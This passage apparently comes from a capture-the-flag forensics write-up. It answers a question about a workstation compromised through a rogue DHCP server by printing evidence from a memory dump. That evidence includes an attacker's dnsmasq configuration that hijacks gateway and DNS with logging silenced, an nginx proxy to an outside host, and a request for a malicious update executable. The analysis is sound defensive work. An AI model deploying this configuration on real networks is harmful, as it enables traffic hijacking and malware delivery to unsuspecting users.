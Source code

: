 **Flag:** `dnsmasq,38687`

---

### Question 7: Compromised Workstation

**Task:** Clearly, the attacker's goal is to impersonate the entire network. One workstation was already tricked and got its new malicious network configuration. What is the workstation's hostname?

**Solution:**

I searched strings.txt for "CogWork-1" (mentioned in the question context) using Notepad++'s search feature. This revealed multiple evidence fragments scattered throughout the memory dump at different locations. These weren't consecutive blocks - they appeared separately among unrelated memory contents, representing different data structures from various memory regions.

**Evidence Fragment 1 - dnsmasq Configuration:**
```
interface=ens224
dhcp-range=192.168.211.30,192.168.211.240,1h
dhcp-option=3,192.168.211.8
dhcp-option=6,192.168.211.8
no-hosts
no-resolv
server=8.8.8.8
address=/updates.cogwork-1.net/192.168.211.8
log-queries=no
quiet-dhcp
quiet-dhcp6
log-facility=/dev/null
```

**Evidence Fragment 2 - DHCP Lease Information:**
```
1756891471 00:50:56:b4:32:cd 192.168.211.52 Parallax-5-WS-3 01:00:50:56:b4:32:cd
```

This DHCP lease entry reveals:
- **Hostname:** Parallax-5-WS-3
- **IP Address:** 192.168.211.52
- **MAC Address:** 00:50:56:b4:32:cd
- **Lease Timestamp:** 1756891471 (Unix epoch)

**Evidence Fragment 3 - Nginx Reverse Proxy Configuration:**
```
server {
    listen 80;
    location / {
        proxy_pass http://13.62.49.86:7477/;
        proxy_set_header Host jm_supply;
    }
}
```

**Evidence Fragment 4 - Malicious Update Request:**
```
GET /win10/update/CogSoftware/AetherDesk-v74-77.exe HTTP/1.1
Host: updates.cogwork-1.net
Accept: */*
User-Agent: AetherDesk/73.0 (Windows NT 10.0; Win64; x64)
```
